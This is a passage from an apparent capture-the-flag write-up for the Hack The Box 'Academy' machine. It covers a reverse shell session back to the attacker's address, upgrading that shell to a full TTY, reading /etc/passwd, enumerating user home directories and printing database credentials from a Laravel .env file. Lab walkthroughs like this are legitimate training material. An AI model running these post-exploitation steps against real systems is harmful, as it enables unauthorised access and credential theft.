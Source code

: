 ```
[*] Command shell session 4 opened (10.10.14.115:4444 -> 10.10.10.215:44740) at 2021-02-02 19:57:44 +0100

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation of Machine : from www-data to cry0l1t3

First let's get a [full TTY](https://book.hacktricks.xyz/shells/shells/full-ttys).

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

There are plenty users we could target:

```
www-data@academy:/var/www/html/htb-academy-dev-01/public$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
```

Then I ran a recursive list in the home directories: `ls -lhAR /home`.

- 21y4d: empty
- ch4p: empty
- cry0l1t3: the user flag is there, and stuff about lxd (useful for pe)
    - `/home/cry0l1t3/.mysql_history` -> we don't have the permission
- egre55: empty
- g0blin: empty
- mrb3n: dirty stuff
    - `/home/mrb3n/.config/composer/.htaccess` -> deny from all
    - `/home/mrb3n/.local/share/composer/.htaccess` -> deny from all

Connecting to the DB fails with mysql creds found in
`/var/www/html/htb-academy-dev-01/.env` (same as the Laravel):

```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=homestead
DB_USERNAME=homestead
DB_PASSWORD=secret
```
